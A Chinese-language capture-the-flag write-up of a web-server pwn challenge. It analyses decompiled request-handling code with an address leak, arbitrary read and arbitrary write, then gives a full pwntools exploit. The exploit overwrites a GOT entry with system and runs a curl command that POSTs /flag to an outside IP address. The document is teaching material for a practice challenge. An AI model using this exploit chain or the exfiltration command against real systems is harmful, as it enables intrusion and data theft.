

第一次写webpwn的题目，选了个简单点的处理服务器的题。

main函数只是一些连接打包函数作为web服务器的初始化处理，就不用管了。

这里引入一篇关于webpwn的文章https://www.anquanke.com/post/id/204404，里面解释了webpwn与传统pwn的区别。也就是下面为什么要用反弹shell

```
unsigned __int64 __fastcall start_routine(void *fd)
{
  int v2; // [rsp+18h] [rbp-8C8h]
  unsigned __int64 n0xFD_2; // [rsp+20h] [rbp-8C0h]
  unsigned __int64 n0xFD; // [rsp+28h] [rbp-8B8h]
  unsigned __int64 n0xFD_3; // [rsp+28h] [rbp-8B8h]
  unsigned __int64 n0xFD_1; // [rsp+30h] [rbp-8B0h]
  char *url; // [rsp+38h] [rbp-8A8h]
  stat stat_buf; // [rsp+40h] [rbp-8A0h] BYREF
  char httpidea[256]; // [rsp+D0h] [rbp-810h] BYREF
  char v10[256]; // [rsp+1D0h] [rbp-710h] BYREF
  char file_[512]; // [rsp+2D0h] [rbp-610h] BYREF
  char s2[1032]; // [rsp+4D0h] [rbp-410h] BYREF
  unsigned __int64 v13; // [rsp+8D8h] [rbp-8h]

  v13 = __readfsqword(0x28u);
  v2 = 0;
  url = 0;
  n0xFD_2 = (int)recv_all((unsigned int)fd, (__int64)s2, 1024);
  for ( n0xFD = 0; ((*__ctype_b_loc())[s2[n0xFD]] & 0x2000) == 0 && n0xFD <= 0xFD; ++n0xFD )
    httpidea[n0xFD] = s2[n0xFD];
  n0xFD_1 = n0xFD;
  httpidea[n0xFD] = 0;
  if ( !strcasecmp(httpidea, "GET") || !strcasecmp(httpidea, "POST") )
  {
    if ( !strcasecmp(httpidea, "POST") )
      v2 = 1;
    n0xFD_3 = 0;
    while ( ((*__ctype_b_loc())[s2[n0xFD_1]] & 0x2000) != 0 && n0xFD_1 < n0xFD_2 )
      ++n0xFD_1;
    while ( ((*__ctype_b_loc())[s2[n0xFD_1]] & 0x2000) == 0 && n0xFD_3 <= 0xFD && n0xFD_1 < n0xFD_2 )
      v10[n0xFD_3++] = s2[n0xFD_1++];
    v10[n0xFD_3] = 0;
    if ( !strcasecmp(httpidea, "GET") )
    {
      for ( url = v10; *url != 63 && *url; ++url )
        ;
      if ( *url == 63 )
      {
        v2 = 1;
        *url++ = 0;
      }
    }
    sprintf(file_, "htdocs%s", v10);
    if ( file_[strlen(file_) - 1] == 47 )
      strcat(file_, "index.html");
    if ( (unsigned int)__xstat_w(&stat_buf) == -1 )
    {
      while ( n0xFD_2 && strcmp("\n", s2) )
        n0xFD_2 = (int)recv_all((unsigned int)fd, (__int64)s2, 1024);
      if ( v2 )
        sub_1DBE((unsigned int)fd, file_, httpidea, (__int64)url);
      else
        sub_28CF((unsigned int)fd);
    }
    else
    {
      if ( (stat_buf.st_mode & 0xF000) == 0x4000 )
        strcat(file_, "/index.html");
      sub_2B80((unsigned int)fd, file_);
    }
    close((int)fd);
  }
  else
  {
    fail((int)fd);
  }
  return __readfsqword(0x28u) ^ v13;
}
```

主要函数之一，主要是讲请求进行分类，分为POST，GET请求进行分别处理。

我分段解析一下（recv_all函数接收到的是换行，具体的我就不贴出来了）。

```
 n0xFD_2 = (int)recv_all((unsigned int)fd, (__int64)s2, 1024);
  for ( n0xFD = 0; ((*__ctype_b_loc())[s2[n0xFD]] & 0x2000) == 0 && n0xFD <= 0xFD; ++n0xFD )
    httpidea[n0xFD] = s2[n0xFD];
  n0xFD_1 = n0xFD;
  httpidea[n0xFD] = 0;
  if ( !strcasecmp(httpidea, "GET") || !strcasecmp(httpidea, "POST") )
```

这里接收的请求被储存在了s2里面，这个for循环就是将请求的第一个部分拆出来分开处理。拆出来的部分放在了httpidea，n0xFD_1则保证了下一次再去拆分请求前面已经拆分过的部分不会被再次拆分。

```
  while ( ((*__ctype_b_loc())[s2[n0xFD_1]] & 0x2000) != 0 && n0xFD_1 < n0xFD_2 )
      ++n0xFD_1;
    while ( ((*__ctype_b_loc())[s2[n0xFD_1]] & 0x2000) == 0 && n0xFD_3 <= 0xFD && n0xFD_1 < n0xFD_2 )
      v10[n0xFD_3++] = s2[n0xFD_1++];
    v10[n0xFD_3] = 0;
```

这就是第二次拆分了，先把n0xFD_1也就是s2此时还未拆分部分的头脚标移动到第一个不是空格的地方。

之后拆出来的部分会被放在v10[n0xFD_3]里面。前面对于post的识别只改了识别符。

先进入get请求处理里面看

```
for ( url = v10; *url != 63 && *url; ++url )
        ;
      if ( *url == 63 )
      {
        v2 = 1;
        *url++ = 0;
      }
```

对发送的url进行再次分离，以？为界。后面会对v10前面添加htdocs。

```
 if ( file_[strlen(file_) - 1] == 47 )
      strcat(file_, "index.html");
```

这个是为了防止get请求请求的是目录，所以加上index.html，也就是说你如果用get请求发送目录路径就会返回网页源码。

```
if ( (unsigned int)__xstat_w(&stat_buf) == -1 )
    {
      while ( n0xFD_2 && strcmp("\n", s2) )
        n0xFD_2 = (int)recv_all((unsigned int)fd, (__int64)s2, 1024);
      if ( v2 )
        sub_1DBE((unsigned int)fd, file_, httpidea, (__int64)url);
      else
        sub_28CF((unsigned int)fd);
    }
```

再然后就是对文件进行校验。

```
(unsigned int)__xstat_w(&stat_buf) == -1
```

__xstat_w函数会验证文件是否可以打开（也就是是否存在）。

```
while ( n0xFD_2 && strcmp("\n", s2) )
        n0xFD_2 = (int)recv_all((unsigned int)fd, (__int64)s2, 1024);
```

验证s接收的请求是否已经耗尽。也就是？后面有没有东西。

此时，如果以上的一切都成功，并且是POST请求。就会进入下面的函数。



只有是submit.cgi这个文件才会进入到我们下面的漏洞函数。

这里追踪url可以看到这里对url参数进行了一定的处理。

这个函数是解密函数，也就是说这里传入函数的url是密文。具体的加密过程我就不讲了。

之后的选项依赖的就是url

url会被分成不同部分，通过数组进行查找赋值，包括第一个位置的cmd，以及之后要进行操作的数据。

```
  if ( *(__int64 *)&url_c[7 * i + 2] <= 4 )
          {
            sprintf(
              buf,
              "Let us look. Oh! That is %p -> \"%s\".\n",
              (&off_6140)[*(_QWORD *)&url_c[7 * i + 2]],
              (&off_6140)[*(_QWORD *)&url_c[7 * i + 2]]);// "H4pPy 5Pr1ng FestiV4l!"
            n_3 = strlen(buf);
            send(fd, buf, n_3, 0);
            continue;
          }
LABEL_36:
          fail(fd);
```

这个地方当url解密之后会泄露程序地址。

```
    continue;
        if ( n0xF1 == 136 )
        {
          if ( n4 <= 1 )
          {
            memset(buf, 0, 0x800u);
            sprintf(
              buf,
              "OK! I give you some message!\nMessage: %p\n",
              *(const void **)(*(_QWORD *)&url_c[7 * i + 2] + *(_QWORD *)&url_c[7 * i + 4]));
            n_2 = strlen(buf);
            send(fd, buf, n_2, 0);
            continue;
          }
          goto LABEL_36;
        }
```

这个就是任意地址读。

```
if ( n0xF1 == 241 )
      {
        if ( n4 > 2 )
          goto LABEL_36;
        *(_QWORD *)(*(_QWORD *)&url_c[7 * i + 2] + *(_QWORD *)&url_c[7 * i + 4]) = *(_QWORD *)&url_c[7 * i + 6];
        memset(buf, 0, 0x800u);
        sprintf(buf, "All right.I know what you say.\n");
        n_1 = strlen(buf);
        send(fd, buf, n_1, 0);
      }
```

这个是任意地址写入。

程序没开fullarease。所以可以去更改got表。

思路这个就来了，利用泄露程序地址与任意地址读泄露got表。之后利用任意地址写入更改strcmp的got表为system。

之后去进入

```
  else if ( n0xF1 == 34
                 && !strcmp((const char *)&url_c[7 * i + 2], "ping")
                 && strlen((const char *)&url_c[7 * i + 4]) <= 0xF )
          {
            memset(buf, 0, 0x800u);
            sprintf(buf, "\"%s\". I receive a message. Pong!", (const char *)&url_c[7 * i + 4]);
            n_5 = strlen(buf);
            send(fd, buf, n_5, 0);
```

函数去触发system。

但是这里不能要去直接传入/bin/sh（因为整个程序都是socket连接到的服务器，fd为4，拿到shell之后fd无法指向攻击机。之后服务器的输出无定向，根本拿不到flag），所以只能利用反弹shell将flag文件发到公网。

反弹shell的操纵我就不讲了。网上文件很多。

```
from pwn import *

table = [
    0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF,
    0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF,
    0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0x3E, 0xFF, 0xFF, 0xFF, 0x3F,
    0x34, 0x35, 0x36, 0x37, 0x38, 0x39, 0x3A, 0x3B, 0x3C, 0x3D, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF,
    0xFF, 0x00, 0x01, 0x02, 0x03, 0x04, 0x05, 0x06, 0x07, 0x08, 0x09, 0x0A, 0x0B, 0x0C, 0x0D, 0x0E,
    0x0F, 0x10, 0x11, 0x12, 0x13, 0x14, 0x15, 0x16, 0x17, 0x18, 0x19, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF,
    0xFF, 0x1A, 0x1B, 0x1C, 0x1D, 0x1E, 0x1F, 0x20, 0x21, 0x22, 0x23, 0x24, 0x25, 0x26, 0x27, 0x28,
    0x29, 0x2A, 0x2B, 0x2C, 0x2D, 0x2E, 0x2F, 0x30, 0x31, 0x32, 0x33, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF
]

def b64(payload):
    p = len(payload) % 3
    if p != 0:
        payload += (3 - p) * b"\x00"
    res = ""
    for i in range(0, len(payload), 3):
        x = payload[i]
        y = payload[i+1]
        z = payload[i+2]
        a = x >> 2
        b = ((x & 3) << 4) | (y >> 4)
        c = ((y & 0xf) << 2) | (z >> 6)
        d = z & 0x3f
        for t in (a, b, c, d):
            idx = table.index(t)
            res += chr(idx)
    return res

p = remote('node5.buuoj.cn', 29485)

data = p32(1) + p32(0x66) + p64(4) + p64(0) + p64(0)
b64_data = b64(data)

p.send(f"GET /submit.cgi?{b64_data} HTTP/1.0\r\n\r\n".encode())
p.recvuntil(b'Let us look. Oh! That is 0x')
addr = int(p.recv(12),16) - 0x4070

p = remote('node5.buuoj.cn', 29485)

data = p32(1) + p32(0x88) + p64(addr) + p64(0x60c0) + p64(0)
b64_data = b64(data)
p.send(f"GET /submit.cgi?{b64_data} HTTP/1.0\r\n\r\n".encode())
p.recvuntil(b'Message: 0x')
libc = int(p.recv(12),16) - 0x1232c0
system = libc +0x55410
p.close()
p = remote('node5.buuoj.cn', 29485)
data = p32(2) + p32(0xf1) + p64(addr) + p64(0x6048) + p64(system)
data += p32(0x22) + b"ping".ljust(8, b"\x00") +b"curl -X POST -d @/flag http://10.88.14.78:4444"
b64_data = b64(data)
p.send(f"GET /submit.cgi?{b64_data} HTTP/1.0\r\n\r\n".encode())
response = p.recvall()
print(response)
p.close()
```

